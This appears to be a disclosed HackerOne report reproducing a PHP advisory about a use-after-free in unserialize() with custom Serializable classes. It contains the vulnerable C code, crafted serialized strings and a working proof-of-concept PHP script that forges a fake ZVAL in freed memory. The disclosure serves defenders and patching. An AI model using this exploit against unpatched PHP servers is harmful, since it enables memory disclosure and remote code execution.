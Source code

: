 # Use After Free Vulnerability in unserialize()

## Report Details
- **Report ID**: 159948
- **URL**: https://hackerone.com/reports/159948
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-17T06:46:10.927Z
- **Disclosed**: 2019-10-13T11:09:11.314Z

## Reporter
- **Username**: ryat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
bug report at: https://bugs.php.net/bug.php?id=70436
fix commit at: https://github.com/php/php-src/commit/95d09e4b5e6b84f8340efe03e8e2f9c1380228db

#Use After Free Vulnerability in unserialize()

Taoguang Chen <[@chtg57](https://twitter.com/chtg57)> - Write Date: 2015.9.6 - Release Date: 2016.8.18

> A use-after-free vulnerability was discovered in unserialize() with customized serializing class that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5 < 5.6.25
Affected is PHP 7 < 7.0.10

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
static inline int object_custom(UNSERIALIZE_PARAMETER, zend_class_entry *ce)
{
	...
	} else if (ce->unserialize(rval, ce, (const unsigned char*)*p, datalen, (zend_unserialize_data *)var_hash TSRMLS_CC) != SUCCESS) {
		return 0;
	}
```

PHP provides an interface for customized serializing, the basic usage given in the PHP manual such as the following code:

```
<?php

class obj implements Serializable {
	var $data;
	function serialize() {
		return serialize($this->data);
	}
	function unserialize($data) {
		$this->data = unserialize($data);
	}
}

?>
```

But using the interface may cause some security issues.

```
PHP_FUNCTION(unserialize)
{
	...
	if (!php_var_unserialize(&return_value, &p, p + buf_len, &var_hash TSRMLS_CC)) {
		PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
		zval_dtor(return_value);
		if (!EG(exception)) {
			php_error_docref(NULL TSRMLS_CC, E_NOTICE, "Error at offset %ld of %d bytes", (long)((char*)p - buf), buf_len);
		}
		RETURN_FALSE;
	}
```

If the php_var_unserialize() call fails, the ZVAL `return_value` will be freed via zval_dtor(), then the ZVAL will be setted into a boolean-type ZVAL that value as FALSE, and the ZVAL will be still stored in an customized serializing object as its properties, such as the following code:

```
<?php

unserialize('C:3:"obj":4:{ryat}');

?>
```

Again, the object can be freed and setted as FALSE when next php_var_unserialize() call fails in during customized serializing. This means that the object and its properties will be destroyed. This also means that in the previous php_var_unserialize() call fails of the ZVAL will be freed. However during deserialization will still allow to use R: or r: to set references to that already freed memory, such as the following code:

```
<?php

unserialize('a:2:{i:0;C:3:"obj":17:{C:3:"obj":3:{ryat}i:1;R:4;}');

?>
```

This will result in use-after-free and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard macOS installation of PHP 5 series.
```
<?php

class obj implements Serializable {
	var $data;
	function serialize() {
		return serialize($this->data);
	}
	function unserialize($data) {
		$this->data = unserialize($data);
	}
}

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'C:3:"obj":3:{ryat';
$exploit = 'a:4:{i:0;i:1;i:1;C:3:"obj":'.strlen($inner).':{'.$inner.'}i:2;s:'.strlen($fakezval).':"'.$fakezval.'";i:3;R:5;}';
$data = unserialize($exploit);
var_dump($data[3]);

function ptr2str($ptr)
{
	$out = '';
	
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	
	return $out;
}

?>
```

Test the PoC on the command line:
```
$ php uafpoc.php
int(1122334455)  <=== Created integer-type fake ZVAL
```

So an attacker can control the memory and create fake ZVAL, and an array-type or object-type fake ZVAL will result in code execution easily, it has been demonstrated many times before.

## Attachments
No attachments
